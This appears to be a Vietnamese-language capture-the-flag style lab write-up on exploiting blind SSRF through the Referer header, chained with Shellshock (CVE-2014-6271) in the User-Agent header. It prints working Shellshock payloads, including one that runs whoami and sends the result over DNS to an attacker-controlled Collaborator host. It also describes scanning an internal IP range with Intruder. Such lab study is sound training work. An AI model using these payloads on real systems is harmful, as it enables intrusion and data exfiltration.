









# Writeup LAB Blind SSRF with Shellshock exploitation

## Goal
To solve the lab, use this functionality to perform a blind SSRF attack against an internal server in the `192.168.0.X` range on port `8080`. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the OS user.
## Khai thác
Trang chủ

Với mô tả challenge thì bài thực hành này xay ra SSRF tại tiêu đề Referer và chúng ta cùng xem.  
Và khi tôi thử nghiệm thì kết quả ở server colab nó nhận truy vấn DNS thông qua yêu cầu HTTP từ người dùng chứng tỏ ứng dụng này xảy ra lỗ hổng SSRF ở tiêu đề

Và làm sao để khai thác chúng và mô tả có nói là để vào internal khai thác nằm ở IP `192.168.0.X` với PORT `8080`   
Và với bài thực hành này chúng ta phải tìm cách RCE đọc được `user` hiện tại gửi về Collabborator chúng ta ra sao. Sau khi tìm hiểu tôi đã tìm kiếm trên google với từ khóa `SSRF Blind With Shellshock` và bài này có nói đến lỗ hổng Shellshock với `CVE-2014-6271` bạn có thể đọc chi tiết <a href="https://viblo.asia/p/server-side-request-forgery-vulnerabilities-ssrf-cac-lo-hong-gia-mao-yeu-cau-phia-may-chu-phan-5-obA466GG4Kv">tại đây</a>

Khai thác lỗ hổng.  
> Do tệp `.cgi` sẽ kế thừa giá trị biến môi trường từ hệ thống nên chúng ta có thể khai thác lỗ hổng `Shellshock` thông qua header `User-Agent`
Payload: `() { :; };echo; /usr/bin/id;`

Bây giờ áp dụng vào bài thực hành chúng ta tôi sẽ sử dụng `payload` vào trường `User-agent` và `IP Internal` vào trường Referer lúc này nếu chúng ta scan IP đúng thì khiến payload thực thi gửi về Server chúng ta kiểm soát
Payload: `() { :; }; /usr/bin/nslookup $(whoami).<IP Collab>`
Referer: `http://192.168.0.X:8080`

Rồi bây giờ tôi sẽ gửi request trang Intruder thực hiện scan địa chỉ octet cuối cùng chính xác của thực Internal

Và lúc này chúng ta có thể thấy nếu octer cuối đúng nó sẽ thực thi lệnh `whoami` gửi về server chúng ta

Thực hiện submit và hoàn thành LAB
